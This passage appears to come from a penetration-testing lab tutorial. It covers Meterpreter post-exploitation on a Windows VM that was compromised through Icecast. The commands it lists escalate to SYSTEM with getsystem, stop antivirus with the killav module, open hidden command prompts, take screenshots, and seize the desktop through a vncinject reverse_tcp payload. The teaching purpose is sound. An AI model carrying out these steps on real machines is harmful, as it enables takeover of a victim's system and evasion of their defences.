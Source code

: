 29.	To see all possible Meterpreter commands, type `help`.

17. Type `sysinfo` to see information about the compromised system.

17. Type `getuid` to see the system user you now control.

18. Because Icecast was "run as administrator", we can easily become SYSTEM -- the Windows equivalent of "root". Escalate your privileges by typing `getsystem`. Type `getuid` again. You should see that you have “NT AUTHORITY\SYSTEM,” which means you administrator privileges. 

19. Now that you are SYSTEM, laugh again.

19. With a Meterpreter shell, you have access to a trove of post-exploit modules included in the Metasploit framework that you can run on the victim machine. For instance, type 

        run post/windows/manage/killav 
        
    to stop anti-virus processes that might limit our attacks on the machine.

20. You can execute commands on the victims host from within Meterpreter. For example, type:

        execute -f cmd.exe -c 

    This will launch cmd.exe on the victim’s machine. You can hide the command window from being shown on the victim machine by using the `-H` option.

    The `-c` option “channelizes” the cmd.exe, which means that meterpreter can continue interacting with it. Notice the message that “Channel 1 was created.”

    Interact with cmd.exe by typing: `channel -i 1`. Use the `dir`, `cd`, and `cd ..` commands to browse around the file system. Type `exit` to return to meterpreter.
    
    <div class='info info-alert'>Since opening a command prompt is such a common action, you can simply type <code>shell</code> to open a hidden command prompt.</div>


22.	Type `screenshot` to capture a screenshot of the current GUI. A jpeg file should be saved to `/root` on your Kali machine. You can view the image from a different shell in Kali by navigating 
    to the directory of the stored image and viewing it with `mirage [image name]`.

23.	Control the Windows GUI. 

    From meterpreter, type `background`  or `cntl+z`. This sends the current meterpreter session to the background so you can do more things in the Metasploit console.

    For this, we will use a different payload -- the `vncinject` payload.
    
        set payload windows/vncinject/reverse_tcp
        
    Type `show options`. Change the "ViewOnly" option to `false`
    
        set ViewOnly false
        
    Run `exploit` anew.
    
    A new window will open on Kali Linux that will let you control the Windows VM using the mouse. <span class='label label-success'>You are now controlling the Windows user interface!</span> Whatever you do, the logged-in user will see!
    Trying moving a window on the Windows VM. Then, close the VNC window on the Kali VM. Because you closed the VNC window, the exploit terminated.
    
24. Let's recover your meterpreter shell. Run `sessions -l` to view all running connections. You should see your meterpreter session, along with its `id`.
